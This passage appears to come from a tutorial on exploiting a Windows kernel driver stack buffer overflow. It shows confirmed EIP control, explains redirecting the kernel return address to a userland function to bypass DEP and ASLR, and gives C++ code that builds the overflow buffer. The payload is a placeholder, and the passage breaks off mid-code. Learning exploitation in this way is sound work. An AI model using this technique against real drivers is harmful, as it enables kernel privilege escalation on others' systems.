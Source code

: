 Success! We attempted to execute code at `0x42424242`, which means `EIP` was set to all Bs.  The offset is exactly right.

## Now what?
At this point when developing a user mode exploit, it would be time to find some space for our shellcode, make a ROP chain to set the page containing it to executable, then figure out  a way to jump to it.  We might even need a stack leak to circumvent ASLR in some cases.

But think about the end goal for a second.  We want to run arbitrary code with kernel privileges.  Thanks to the buffer overflow, we now have a "call" with kernel privileges.  We started with the ability to load arbitrary code into memory, but only with user permissions.  Why don't we just use our kernel call to jump to a function within our userland code?  

> This method gives us both a `DEP` and `ASLR` "bypass" by default, since the user mode code will of course be in an executable page, and it is trivial to get a pointer to a function we control.

Let's make a function that looks like the following:

```c++
VOID shellcode() {
    __asm {
        mov eax, 0
        mov ebx, 1
        mov ecx, 2
        mov edx, 3
    }
}
```

We also need to change the `testOverflow` function to look like this:

```c++
int testOverflow(HANDLE hDevice) {

    PCHAR lpInBuffer    { nullptr };
    ULONG inBufferSize  { 0 };
    DWORD bytesReturned { 0 };
    DWORD lpShellcode   { 0 };
    
    // Allocate a buffer of the correct size to overflow into the 
    // return address.  Need to overflow the buffer, the SEH EH4 
    // Registration Node, the saved EBP, and finally the return
    // address.  Last 4 bytes will overwrite the return address.
    inBufferSize = BUFFER_SIZE + EH4_REGISTRATION_NODE_SIZE + 4 + 4;
    
    lpInBuffer = (PCHAR)HeapAlloc(GetProcessHeap(), 
                                  HEAP_ZERO_MEMORY, 
                                  inBufferSize);

    if (!lpInBuffer) {
        printf("[-] Failed to allocate memory for buffer: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] Created buffer of size: %lu\n", inBufferSize);

    // Set buffer to be full of 'A's
    memset(lpInBuffer, 'A', inBufferSize);

    // Set the last 4 bytes to contain a pointer to the "shellcode" function
    lpShellcode = (DWORD)&shellcode;
    lpInBuffer[inBufferSize - 4] = (lpShellcode & 0x000000FF);
    lpInBuffer[inBufferSize - 3] = (lpShellcode & 0x0000FF00) >> 0x8;
    lpInBuffer[inBufferSize - 2] = (lpShellcode & 0x00FF0000) >> 0x10;
    lpInBuffer[inBufferSize - 1] = (lpShellcode & 0xFF000000) >> 0x18;

```